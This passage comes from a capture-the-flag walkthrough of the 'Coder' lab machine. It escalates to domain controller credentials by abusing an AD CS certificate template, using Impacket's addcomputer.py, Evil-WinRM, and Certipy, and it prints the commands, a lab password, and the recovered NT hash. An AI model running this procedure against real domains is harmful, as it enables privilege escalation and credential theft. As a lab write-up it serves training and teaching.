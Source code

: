 Now I’ll add the computer:

```

oxdf@hacky$ python addcomputer.py 'coder.htb/s.blade:AmcwNO60Zg3vca3o0HDrTC6D' -method LDAPS -computer-name "0xdf_PC" -computer-pass "0xdf0xdf" -computer-group OU=BuildAgents,OU=DEVELOPMENT,DC=CODER,DC=HTB
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[*] Successfully added machine account 0xdf_PC$ with password 0xdf0xdf.

```

#### Enroll with Template

Now I’ll enroll that computer object in the template:

```
*Evil-WinRM* PS C:\programdata> Set-ADCSTemplateACL -DisplayName oxdf -type allow -identity 'coder\0xdf_PC$' -enroll

```

#### Get Certificate

Now I’ll use [Certipy](https://github.com/ly4k/Certipy) to get the certificate for the `dc01.coder.htb` machine:

```

oxdf@hacky$ certipy req -u 0xdf_PC\$@dc01.coder.htb -p '0xdf0xdf' -ca CODER-DC01-CA -template oxdf -target dc01.coder.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 21
[*] Got certificate with DNS Host Name 'DC01.coder.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'dc01.pfx'

```

For the final step to work, I’ll need my clock synced with Coder, running `sudo rdate -n dc01.coder.htb`. Then use that certificate to authenticate and get the hash for the legit DC01 machine:

```

oxdf@hacky$ certipy auth -pfx dc01.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: dc01$@coder.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@coder.htb': aad3b435b51404eeaad3b435b51404ee:56dc040d21ac40b33206ce0c2f164f94

```
